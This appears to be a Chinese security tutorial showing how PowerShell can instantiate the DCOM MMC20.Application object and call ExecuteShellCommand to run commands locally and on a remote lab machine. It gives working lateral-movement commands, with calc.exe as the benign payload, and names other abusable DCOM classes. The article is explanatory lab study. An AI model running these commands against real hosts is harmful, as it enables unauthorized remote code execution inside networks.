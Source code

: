 2、查看 MMC 类：可以看到，这是一个类，类是可以实例一个对象出来的

```
Get-wmiobject -namespace root\cimv2 -class win32_dcomapplication | findstr “MMC”
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCbaObTUx5WficJCiaRhx61BboVVoVmntZZswIIQyJm8Sj4e1bcvaziaYf9ic9FLoy3eBzMm4gOJ9J3aQ/640?wx_fmt=png)

 执行如下命令通过 PowerShell 与 DCOM 进行交互，创建一个 “MMC20.Application” 对象的实例（我们只需要提供一个 DCOM ProgID 和一个 IP 地址，就返回一个 COM 对象的实例）

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
//查看这个实例的属性方法
$com.Document.ActiveView | Get-Member
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZD84cQ5BUXemePWcEAapzZpYicZ363byVsOYibqZH3gwLSmLIqhjB86I02ficjjWnOfDKTue9htUoJzQ/640?wx_fmt=png)

看到有一个方法可以拿来执行命令：

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZD84cQ5BUXemePWcEAapzZp6t6ibIWplbjc27AkasHHARe0SqW65IQksp2Wwe6DPrAmMTkQuC93Xmw/640?wx_fmt=png)

注：当实例化对象的时候出现报错，直接百度报错码，一般来说是机器上面的系统文件缺失，使用系统自带命令进行自检并且自动修复即可：sf /scannow

**使用 dcom 在远程机器执行命令**

实例对象，然后调用对象的方法进行命令执行

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.52.138"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```

注：可能要关闭目标的防火墙，我看人家讲解的时候没有关的过程，不确定是否关了，我只有关闭目标机器的防火墙后才能使用这个方法。

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZD84cQ5BUXemePWcEAapzZp9J2GzUyfska4gGnO4qHCRYuU6bnvjMoBhQhTdprMeu0LdtEaD1MBtQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZD84cQ5BUXemePWcEAapzZpnI2tYjr3Eqb1yhLAt4YLWCTxBKMLDCqRFThRBiaWLFUYe2ibIDZrm67g/640?wx_fmt=png)

通过以上实验，可以知道基本原理是：利用 powershell 调用 dcom 组件中的类，实例化一个对象出来，对象中有方法可以执行命令。

同样的类还有：

ShellWindows、ShellBrowserWindow、Excel.Application 以及 Outlook.Application 等等，如果不能直接用类名进行实例化，可以查看该类的 id，使用 Id 进行实例化。

参考链接：

```
https://www.cnblogs.com/bonelee/p/14410715.html
```

  

  
